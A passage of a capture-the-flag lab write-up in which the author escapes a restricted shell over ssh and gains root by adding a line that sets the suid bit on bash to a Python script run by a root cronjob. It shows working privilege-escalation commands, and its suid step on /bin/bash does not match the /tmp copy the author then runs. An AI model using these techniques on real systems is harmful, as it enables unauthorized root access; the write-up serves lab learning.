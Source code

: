 Let's ssh to mindy's account.

![](5.png)

We logged in successfully but we can't run commands as normal, that's because of `rbash` which is a restricted shell.

Searching for `rbash` on google gives a result on how to escape it.

To get a normal bash shell, we add `-t "bash"` to our ssh command

![](6.png)

## **Privilege Escalation**

Randomly checking directories on the target system I came across a python script called `tmp.py` in the `/opt` directories

```terminal
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py                                                                                           
#!/usr/bin/env python                                                                                                                                         
import os                                                                                                                                                     
import sys                                                                                                                                                    
try:                                                                                                                                                          
     os.system('rm -r /tmp/* ')                                                                                                                               
except:                                                                                                                                                       
     sys.exit()                                      
```

The script cleans the /tmp directory, so i guessed there must be a cronjob running it.

I added the following line to the file and waited.

```python
os.system("cp /bin/bash /tmp/bash && chmod +s /bin/bash")
```

After waiting for a bit nothing happened so i decided to run `linpeas` and `pspy64` and right before i run them the cronjob ran and wiped the /tmp directory where i put the two files and I found the `bash` binary with suid bit.

![](7.png)

Running `/tmp/bash -p` gives root shell.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).